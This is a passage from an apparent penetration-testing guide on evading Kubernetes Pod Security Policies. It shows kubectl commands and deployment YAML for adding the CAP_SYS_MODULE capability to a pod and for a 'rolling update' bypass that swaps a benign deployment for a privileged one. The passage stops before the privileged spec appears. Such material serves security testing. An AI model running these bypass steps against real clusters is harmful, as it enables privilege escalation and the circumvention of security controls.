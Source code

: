 ```bash
kubectl apply -f capsysmodule-pod.yaml -n <namespace_name>
```

**Explanation:** This creates a pod with the `CAP_SYS_MODULE` capability.  This capability allows the container to load and unload kernel modules, which can be used for privilege escalation.

**Expected Output:**

*   **If successful (PSP Evasion):** The pod will be created and enter the `Running` state.
*   **If blocked:** An error message indicating that the pod violates the PSP, specifically due to the `CAP_SYS_MODULE` capability.

**Why:** Many PSPs incorrectly whitelist `CAP_SYS_MODULE` without realizing the risk.

**Step 7: Evasion via Updating a Deployment (Rolling Updates Bypass)**

Sometimes, PSPs are enforced more strictly during pod creation than during updates. Attempt to create a "harmless" deployment, then update it to use a privileged security context.

First create a basic deployment:

```yaml
# initial-deployment.yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  name: initial-deployment
spec:
  replicas: 1
  selector:
    matchLabels:
      app: initial-deployment
  template:
    metadata:
      labels:
        app: initial-deployment
    spec:
      containers:
      - name: initial-container
        image: busybox:latest
        command: ["sleep", "3600"]
```

```bash
kubectl apply -f initial-deployment.yaml -n <namespace_name>
```

**Explanation:** Creates a basic deployment with a simple pod. This should pass initial PSP checks.

**Expected Output:** The deployment is created successfully.

Next, update the deployment to use a privileged security context:

```yaml
# updated-deployment.yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  name: initial-deployment
spec:
  replicas: 1
  selector:
    matchLabels:
      app: initial-deployment
  template:
    metadata:
      labels:
        app: initial-deployment
    spec:
      containers:
```